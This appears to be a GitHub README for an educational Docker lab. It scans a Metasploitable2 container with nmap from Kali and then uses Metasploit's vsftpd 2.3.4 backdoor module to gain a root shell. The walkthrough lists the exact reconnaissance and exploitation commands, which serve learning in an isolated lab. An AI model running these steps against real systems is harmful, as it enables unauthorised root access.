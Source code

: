 # Metasploitable2 Docker Lab
## Overview
This repository documents a cybersecurity lab that demonstrates the process of **reconnaissance and exploitation**. The lab environment was created using **Docker** to set up a secure, isolated network with a **Kali Linux** container as the attacking machine and a **Metasploitable2** container as the vulnerable target.

The primary objective was to identify and exploit common, well-known vulnerabilities to gain a command shell on the target system.
***
## Lab Environment Setup
The lab was built using **Docker** and **Docker Compose** on a Windows host machine. The `docker-compose.yml` file defines the two containers and a private network to allow them to communicate. 

**Prerequisites**
* **Docker Desktop**: Running on the host machine.
* **Git**: Installed on the host machine for cloning and version control.

**Setup Instructions**
1. **Clone the Repository**: Clone this repository to your local machine.
```
git clone https://github.com/MSearleProjects/cybersecurity-lab-1-metasploitable.git
cd cybersecurity-lab-1-metasploitable
```
2. **Launch the Containers**: Run the `docker-compose up` command from the root of this directory. This command reads the `docker-compose.yml` file and starts both containers.
```
docker-compose up -d
```
***
## Lab Walkthrough
**Reconnaissance with Nmap**

After launching the containers, the first step was to get a terminal inside the Kali container and perform a network scan to identify open ports and services on the target.
1. **Enter the Kali container**:
```
docker exec -it kali bash
```
2. **Find the target's IP**: From inside the Kali terminal, I used `ping` to find the IP address of the `metasploitable` container.
```
ping metasploitable
```
The IP address that comes back is `172.18.0.3`

3. **Run the Nmap scan**:
```
nmap -sV -sC 172.18.0.3
```
`-sV` means Service Version Detection and tells Nmap to attempt to determine the **service name and version number** of whats running on each port. `-sC` is a shortcut for `--script=default` and tells Nmap to run a set of default scripts against the target which include **vulnerability checks**, **enumeration** and **misconfiguration audits**.

**Findings**
The Nmap scan revealed several services with outdated and vulnerable versions.
* **FTP**: `vsftpd 2.3.4` running on port `21/tcp`.
* **SSH**: `OpenSSH 4.7p1` running on port `22/tcp`.
* **Samba**: `Samba smbd 3.0.20-Debian` running on ports `139/tcp` and `445/tcp`.
* **IRC**: `UnrealIRCd` running on port `6667/tcp`.

The `vsftpd 2.3.4` version was targeted due to a well-known backdoor vulnerability.
***
## Exploitation with Metasploit
The **Metasploit Framework** was used to exploit the `vsftpd` vulnerability and gain command shell on the target system.
1. **Launch** `msfconsole`:
```
msfconsole
```
2. **Search for the exploit**:
```
msf6 > search vsftpd
```
3. **Search and configure the exploit**: The `vsftpd_234_backdoor` module was chosen.
```
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
msf6 > set RHOSTS 172.18.0.3
msf6 > exploit
```
4. **Result**: The exploit should successfully create a reverse shell, granting command-line access to the Metasploitable2 container with **root privileges**.
***
## Conclusion
This lab demonstrates the core steps of a penetration test, from initial network scanning to gaining unauthorised access. The `vsfptd` vulnerability, while simple, serves as an example of how critical it is to keep software patched and updated.

**Disclaimer**: This lab was conducted in a controlled, isolated environment for educational purposes. Unauthorised access to any computer system is illegal and unethical.
